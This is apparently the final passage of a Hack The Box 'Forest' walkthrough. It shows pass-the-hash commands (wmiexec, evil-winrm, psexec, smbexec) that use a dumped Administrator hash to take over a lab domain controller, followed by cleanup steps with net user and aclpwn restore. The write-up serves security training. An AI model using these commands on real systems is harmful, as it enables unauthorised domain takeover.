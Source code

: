 With the Admin hash obtained through `secretsdump.py`, we can use `wmiexec.py` to connect as Administrator.

```txt
python wmiexec.py -hashes aad...51404ee:3269...eea6 Administrator@10.10.10.161

OR

evil-winrm -i 10.10.10.161 -u Administrator -H "32693...07ceea6"

OR

psexec.py administrator@10.10.10.161 -hashes aad...51404ee:3269...eea6

OR

python smbexec.py -hashes aad...51404ee:3269...eea6 Administrator@10.10.10.161
```

And root flag can be found as below.
![alt text](/static/images/2019/04/forest/forest_root_flag.png "testing")

Remove the TestUser account.

```cmd
C:\net user TestUser /delete
```

> Note: do not forget to restore the changes you did with aclpwn. When using aclpwn, the utility told us that a restore file has been saved under the name aclpwn-xxx.restore. To use it, we simply use the following command:

```cmd
aclpwn -f svc-alfresco -ft user -d htb.local  -s 10.10.10.161 -du 'neouser' -dp 'neopass' --restore aclpwn-xxx.restore
```

Thanks for reading my writeup and thank you to hackthebox.eu and the machine creators.



_References:_

1. [HTB Writeup-1](https://rubytox.github.io/2020/03/20/Forest.html)
2. [HTB Writeup-2](https://bkr3257.gitbook.io/hackynotes/htb-writeups/forest)
3. [HTB Writeup-3](https://hackso.me/forest-htb-walkthrough/)
4. [HTB Writeup-4](https://medium.com/@sinfulz/hackthebox-forest-walkthrough-248fce6fc90d)
5. [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
6. [Detailed blog on Kerberos attack](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)

